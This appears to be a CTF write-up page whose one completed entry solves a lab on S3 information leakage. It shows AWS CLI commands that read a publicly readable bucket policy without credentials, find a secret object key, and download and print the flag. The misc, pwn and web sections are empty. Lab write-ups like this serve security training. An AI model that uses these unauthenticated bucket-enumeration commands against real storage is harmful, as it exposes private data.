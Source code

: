 # ctf.live


 - [beginners](#beginners)
   - [cloud](#cloud)
     - [S3: Information Leakage](#S3:-Information-Leakage)
   - [misc](#misc)
     
   - [pwn](#pwn)
     
   - [web](#web)



## cloud

### S3: Information Leakage

It's a common practice to have web applications fetch static resources from the Amazon S3 bucket. In most of the deployment, the S3 bucket will have object listing disabled as it could reveal sensitive information.

In this challenge, the attacker can interact with both the web application as well as with the Amazon S3 bucket. There is a misconfiguration on the S3 bucket which can be leveraged to find out the object key of certain objects.

Objective: Retrieve the flag from the S3 Bucket

This lab has been created using Minio which is an Open Source, Enterprise-Grade, Amazon S3 Compatible Object Storage.

Instructions: 

This lab is dedicated to you! No other users are on this network :) 
Once you start the lab, you will have access to a Kali GUI instance.
The web server should be located at pentesteracademylab.appspot.com
The exposed S3 endpoint should be located at s3.pentesteracademylab.appspot.com

La pista del reto es: 
**The S3 Bucket policy is readable**

```
root@attackdefense:~# aws s3api get-bucket-policy --bucket assets --no-sign-request --endpoint-url http://s3.pentesteracademylab.appspot.com

{
    "Policy": "{\"ID\":\"Policy1568185116930\",\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"Stmt1568184932403\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":[\"*\"]},\"Action\":[\"s3:GetBucketPolicy\"],\"Resource\":[\"arn:aws:s3:::assets\"]},{\"Sid\":\"Stmt1568185007451\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":[\"*\"]},\"Action\":[\"s3:GetObject\"],\"Resource\":[\"arn:aws:s3:::assets/sup3r-s3cr3t-flag\"]}]}"
}

root@attackdefense:~# aws s3 cp s3://assets/sup3r-s3cr3t-flag . --no-sign-request --endpoint-url http://s3.pentesteracademylab.appspot.com
download: s3://assets/sup3r-s3cr3t-flag to ./sup3r-s3cr3t-flag  

root@attackdefense:~# cat sup3r-s3cr3t-flag 
c394b16102c3c6976934c0b7d6af55f9

root@attackdefense:~# 
```



## misc



## pwn



## web

